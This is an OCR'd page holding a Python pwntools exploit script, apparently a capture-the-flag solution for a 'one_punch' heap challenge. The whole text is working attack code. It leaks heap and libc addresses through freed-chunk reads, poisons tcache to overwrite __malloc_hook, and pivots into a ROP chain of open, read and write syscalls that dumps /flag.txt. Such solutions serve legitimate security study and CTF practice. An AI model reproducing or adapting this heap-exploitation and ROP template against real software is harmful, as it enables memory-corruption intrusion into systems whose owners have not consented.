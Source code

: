 ```python
	if host:
		p = remote(host,port)
	else:
		p = process("./one_punch")
		# debug(0x0000000000015BB)
		# gdb.attach(p)
	for i in range(2):
		add(i,"A"*0xf8)
	dele(0)
	dele(1)
	show(1)
	p.recvuntil(": ")
	heap = u64(p.recvuntil("\n",drop=True).ljust(8,b"\x00")) - 0x260
	for i in range(4):
		add(0,"A"*0xf8)
		dele(0)
	for i in range(7):
		add(0,"A"*0x400)
		dele(0)
	for i in range(2):
		add(i,"A"*0x400)
	dele(0)
	show(0)
	p.recvuntil(": ")
	libc.address = u64(p.recvuntil("\n",drop=True).ljust(8,b"\x00")) - 0x1e4ca0
	info("heap : " + hex(heap))
	info("libc : " + hex(libc.address))
	add(1,"A"*0x300)
	add(2,"A"*0x400)
	add(1,"A"*0x400)
	dele(2)
	add(1,"A"*0x300)
	add(1,"A"*0x400)
	add(0,"A"*0x217)
	payload = b"\x00"*0x108+b"/flag.txt"+b"\x00"*(0x7+0x1f0)+p64(0x101)+p64(heap+0x27d0)+p64(heap+0x30-0x10-5)
	edit(2,payload)
	dele(0)
	add(2,"A"*0xf8)
	edit(0,p64(libc.symbols["__malloc_hook"]))
	cmd(str(50056))
	p.send("C"*8)
	cmd(str(50056))
	p.send(p64(libc.address+0x000000000008cfd6))
	# pause()
	# 0x000000000008cfd6: add rsp, 0x48; ret;
	# 0x0000000000026542: pop rdi; ret;
	# 0x000000000012bdc9: pop rdx; pop rsi; ret;
	# 0x0000000000047cf8: pop rax; ret;
	# 0x00000000000cf6c5: syscall; ret;
	p_rdi = 0x0000000000026542+libc.address
	p_rdx_rsi = 0x000000000012bdc9+libc.address
	p_rax = 0x0000000000047cf8+libc.address
	syscall_ret = 0x00000000000cf6c5+libc.address
	payload = p64(p_rdi)+p64(heap+0x2df8)+p64(p_rdx_rsi)+p64(0)*2+p64(p_rax)+p64(2)+p64(syscall_ret)
	payload += p64(p_rdi)+p64(3)+p64(p_rdx_rsi)+p64(0x80)+p64(heap+0x2d00)+p64(p_rax)+p64(0)+p64(syscall_ret)
	payload += p64(p_rdi)+p64(1)+p64(p_rax)+p64(1)+p64(syscall_ret)
	payload += p64(p_rdi)+p64(0)+p64(p_rax)+p64(0)+p64(syscall_ret)
	payload = payload.ljust(0x100,b"\x00")
	gdb.attach(p)
	add(2,payload)
```